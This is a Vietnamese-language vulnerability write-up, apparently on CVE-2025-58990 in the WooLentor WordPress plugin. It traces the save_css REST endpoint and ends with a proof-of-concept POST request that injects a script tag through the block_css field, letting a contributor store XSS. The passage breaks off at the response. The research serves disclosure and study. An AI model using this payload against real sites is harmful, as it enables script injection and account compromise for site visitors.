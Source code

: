 Ta chưa xác định được chính xác **namespace** ở đây là gì vì nó được khai báo ở đâu đó trong mã nguồn, không phải trong class này. Ta tận dụng route `save_css` để truy vết.

Truy cập `/wp-json/` và tìm với từ khóa `save_css`

![Search](images/posts/2025-09-17-CVE-2025-58990/search.png)

Kết quả cho thấy endpoint thực tế là:

```
http://localhost/wp-json/woolentor/v1/save_css
```

Để biết **namespace** này được khai báo ở đâu, ta tiếp tục tìm trong mã nguồn với từ khóa `'woolentor/v1'`:

![Name Space](images/posts/2025-09-17-CVE-2025-58990/name_space.png)

Có nhiều kết quả, nhưng vì ta đang phân tích tính năng **REST API**, nên tập trung vào file **Api.php**.

`register_routes( $namespace )` thuộc class `Manage_Styles` yêu cầu tham số `$namespace` nên có thể `woolentor/v1` được truyền ở đây thông qua thể hiện của class gọi đến hàm. ta tìm với từ khóa `Manage_Styles` trong file **Api.php** để biết nó được gọi như vậy không.

![Call Api](images/posts/2025-09-17-CVE-2025-58990/callapi.png)

`namespace` chính xác được gọi và truyền như vậy.

👉 Như vậy, khi gửi **POST** request đến endpoint `http://localhost/wp-json/woolentor/v1/save_css`, callback `save_block_css` được gọi để thêm/sửa block CSS trong file và database. 
Khi truy cập vào post có `post_id` liên quan đến block CSS được lưu, `generate_inline_css` sẽ lấy nội block CSS và inline CSS trong thẻ `<style type="text/css"></style>` của post.

---

## Exploit 
### Detect XSS
Sử dụng user có role **contributor** tạo 1 post bất kì, ghi nhớ id của post đó.

Gửi **POST** request đến endpoint `http://localhost/wp-json/woolentor/v1/save_css` với XSS payload

```http
POST /wp-json/woolentor/v1/save_css HTTP/1.1
Host: localhost
Content-Type: application/json

{
"post_id":1416,
"has_block":true,
"block_css":"</style><script>alert(document.domain)</script><style>"
}
```

**Response**

